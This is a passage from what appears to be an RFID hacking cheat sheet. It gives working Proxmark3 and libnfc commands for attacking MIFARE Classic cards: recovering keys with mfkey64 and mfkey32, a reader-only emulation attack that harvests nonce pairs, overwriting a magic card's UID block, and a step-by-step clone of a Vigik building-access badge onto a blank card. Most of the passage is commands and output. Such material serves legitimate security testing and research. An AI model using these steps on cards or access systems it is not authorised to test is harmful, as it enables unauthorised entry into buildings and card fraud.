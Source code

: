 ```powershell
READER RESPONSE: 3b495a1b
TAG RESPONSE: d6537c57

# crapto1gui or mfkey
cd tools/mfkey
make
./mfkey64
./mfkey64 xxxxxxxx 3b45a45a 7ddb6646 142fc1b9 9195fb3f
```

### Reader only attack

Emulate a MIFARE Classic with a DEADBEEF UID.

```powershell
proxmark3> hf mf sim u deadbeef n 1 x
mf 1k sim uid: de ad be ef , numreads:0, flags:18 (0x12)
#db# Collected two pairs of AR/NR which can be used to extract keyA from reader for sector 1:
#db# ../tools/mfkey/mfkey32 deadbeef 0102xxxx 4d9axxxx 87e7xxxx 06d2xxxx b4a0xxxx
#db# Emulator stopped. Tracing: 1 trace length: 253
#db# 4B UID: deadbeef
```

### Read a Mifare Dump

```powershell
pip install bitstring
git clone https://github.com/zhovner/mfdread
mfdread.py ./dump.mfd
```

## HF - Mifare Classic 4k

### Chinese Magic Mifare Classic 4K

Block 0 is writable through normal Mifare Classic commands, i.e. there is not special “unlocked” read/write like in “magic Mifare 1k” version.

Writing block 0 with Proxmark, UID 01020304, using key A being FFFFFFFFFFFF:

```powershell
hf mf wrbl 0 a FFFFFFFFFFFF 01020304040000000000000000000000
```

Again, watch out to have correct BCC and avoid Cascading Tag (0x88) as first byte of UID, or you may make the card unselectable (i.e. brick it).

## HF - Vigik

Tool : https://github.com/cjbrigato/kigiv-for-proxmark3/releases

```powershell
modprobe -r pn533_usb
modprobe -r pn533
nfc-list # Vérifier le bon fonctionnement du lecteur
mfoc -P 500 -O carte-vierge.dmp # Extraire les clés de chiffrement de la puce RFID chinoise dans un fichier
mfoc -P 500 -O carte-originale.dmp # Copiez le contenu de la puce RFID d’origine dans un fichier
nfc-mfclassic W a carte-originale.dmp carte-vierge.dmp # Ecrire le contenu de la puce originale sur la puce chinoise
```

